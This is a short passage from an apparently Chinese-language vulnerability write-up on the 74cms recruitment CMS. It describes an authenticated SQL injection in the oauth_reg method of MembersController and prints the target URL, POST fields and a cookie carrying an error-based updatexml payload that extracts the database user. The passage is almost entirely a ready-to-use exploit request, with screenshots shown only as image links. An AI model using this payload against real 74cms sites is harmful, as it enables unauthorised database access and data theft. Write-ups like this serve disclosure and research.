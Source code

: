 ## 0x07 74cms独有框架漏洞第四处


```bash
文件：74cms\upload\Application\Home\Controller\MembersController.class.php
方法：oauth_reg (
是否需登录：需要
登录权限：普通用户/企业用户都可
url: http://74cms.test/index.php?m=&c=Members&a=oauth_reg
post:
    username = 自己去平台随便注册个账号然后输入那个账号
    password = 自己去平台随便注册个账号然后输入那个密码
cookie:
    members_bind_info[type][0]=match;
members_bind_info[type][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;
```

![](images/15889215892753.png)


![](images/15889215944286.png)


看源码

![](images/15889216016802.png)


![](images/15889216059011.png)


## 四、参考链接

https://www.yuque.com/pmiaowu/bfgkkh/nzr6fl